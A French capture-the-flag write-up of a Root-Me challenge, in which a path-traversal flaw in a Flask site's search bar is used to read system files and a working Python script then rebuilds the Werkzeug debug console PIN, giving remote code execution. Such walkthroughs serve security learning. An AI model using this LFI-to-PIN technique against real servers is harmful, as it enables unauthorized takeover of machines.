

Flask est un framework Python, permettant de créer et développer des applications web de manière simple et efficace. Flask s'appuie sur d'autres frameworks tels que `Jinja` et `Werkzeug`. C'est Werkzeug et sa console en ligne que nous attaqueront ici pour prendre le contrôle de la machine à distance.

Voyons à présent à quoi ressemble le site web.

La page d'accueil nous explique que le site web est encore en développement, et est alors probablement en debug mode. C'est effectivement le cas, et une console en ligne est bien présente, protégée d'un code pin.

Continuons de découvrir le site.

La barre de recherche est pas encore fonctionnelle. On se rend assez rapidement compte qu'elle est sensible aux attaques `LFI`. Le simple fait de chercher `../`, ou même `/` nous renvoie que c'est un dossier :

    [Errno 21] Is a directory: '../'

Néanmoins, nous ne somme pas root et n'avons pas la possibilité de lire tous les fichiers, ou d'exécuter des commandes à distance. Revenons alors sur la console Werkzeug. En étudiant son fonctionnement grâce à son repo [github], on constate que des variables bien particulières sont utilisés pour générer le code pin :


 # This information only exists to make the cookie unique on the
 # computer, not as a security feature.
    probably_public_bits = [
        username,
        modname,
        getattr(app, "__name__", type(app).__name__),
        getattr(mod, "__file__", None),
    ]

  # This information is here to make it harder for an attacker to
  # guess the cookie name.  They are unlikely to be contained anywhere
  # within the unauthenticated debug page.
    private_bits = [str(uuid.getnode()), get_machine_id()]


### probably_public_bits :

La première partie `probably_public_bits` contient des valeurs assez générales, pour la plupart faciles à obtenir, cependant, pour la partie `private_bits`, il est impossible de les obtenirs sans avoir accès à la machine. Nous utiliserons alors ici la faille `LFI` pour rassembler ces informations. 

#### username

Pour l'username, on trouve dans le fichier `etc/passwd` l'utilisateur `web-app`. 

#### modname

C'est une valeur constante : `flask.app`

#### getattr(app, "\_\_name__", type(app).\_\_name__)

Cette valeur est aussi une valeur constante : `flask`

#### getattr(mod, "\_\_file__", None)

Pour obtenir cette valeur, il faut savoir où se situe le fichier de la librairie Flask `app.py`. Le chemin `/usr/local/lib/python3.11/site-packages/` existe, mais semble vide.
En cherchant un peu les endroits possibles où pourrait être installé Flask, nous pouvons finalement le trouver dans le dossier `.local` de l'utilisateur : `/home/web-app/.local/lib/python3.11/site-packages/flask/app.py`

### private_bits :
#### str(uuid.getnode())

`uuid.getnode()` en python utilise l'adresse mac de la machine et la transforme en un identifiant. Pour trouver la bonne adresse mac de la machine, puisqu'elle peut en avoir plusieurs, nous pouvons lire le fichier `/proc/net/arp`, qui représente la table ARP de la machine.

    IP address HW type Flags HW address Mask Device 172.17.0.1 0x1 0x2 02:42:c0:00:2d:b3 * eth0

Plus clairement : 

    IP address : 172.17.0.1 
    HW type : 0x1
    Flags : 0x2
    HW address : 02:42:c0:00:2d:b3
    Mask : *
    Device : eth0         

`HW address` n'est pas l'adresse de la machine, mais grâce au fait que nous ayons `eth0`, nous pouvons alors trouver l'adresse mac ici : `/sys/class/net/eth0/address` 

Nous obtenons alors `02:42:ac:11:00:27`. Il faut alors la transformer en décimal, nous donnant le nombre `2485377892391`

#### get_machine_id()

Selon le code source de Werkzeug, 2 moyens sont possibles pour obtenir l'identifiant : `/etc/machine-id` ou bien `/proc/sys/kernel/random/boot_id`.


for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                with open(filename, "rb") as f:
                    value = f.readline().strip()
            except OSError:
                continue

            if value:
                linux += value
                break


`machine-id` est un identifiant unique généré lors du tout premier boot de la machine, et ne change plus jamais lors des prochains boots.
`boot_id` est un identifiant généré à chaque démarage de la machine. 

Le premier fichier n'est pas présent sur la machine, le deuxième quand à lui donne : `ac83be61-74d3-4ad0-a964-93e858cab0fb`

Nous avons désormais tous les éléments nécessaires pour générer le bon code pin. Voici un programme Python réalisant cela :


import hashlib
from itertools import chain
probably_public_bits = [
    'web-app',  # username
    'flask.app',  # modname
    'Flask',  # getattr(app, '__name__', getattr(app.__class__, '__name__'))
    '/home/web-app/.local/lib/python3.11/site-packages/flask/app.py'  # getattr(mod, '__file__', None),
]

private_bits = [
    '2485377892391',  # /sys/class/net/eth0/address
    'ac83be61-74d3-4ad0-a964-93e858cab0fb'  # /proc/sys/kernel/random/boot_id
]

# h = hashlib.md5()  # Changed in https://werkzeug.palletsprojects.com/en/2.2.x/changes/#version-2-0-0
h = hashlib.sha1()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')
# h.update(b'shittysalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv = None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)


Nous avons désormais généré le code pin de la console de debug. Désormais, nous avons accès à une interface de commande Python et avons les pleins pouvoirs sur la machine.

Le challenge réalisé ici est issue du site [ROOT-ME]

[ROOT-ME]: https://www.root-me.org/fr/Challenges/Web-Serveur/Flask-Development-server
[github]: https://github.com/pallets/werkzeug/blob/main/src/werkzeug/debug/__init__.py